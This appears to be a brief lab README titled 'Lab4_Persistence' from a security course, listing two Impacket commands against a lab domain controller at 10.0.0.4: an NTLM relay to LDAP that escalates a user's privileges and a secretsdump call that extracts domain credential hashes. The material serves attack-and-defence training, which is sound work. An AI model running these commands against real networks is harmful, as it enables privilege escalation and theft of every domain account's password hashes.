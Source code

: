 # Lab4_Persistence
- Some command you may need:
    - sudo python ntlmrelayx.py -t ldap://10.0.0.4 --escalate-user <account>
    - sudo python secretsdump.py hackcollege/<account>:<passwd>@10.0.0.4 -just-dc
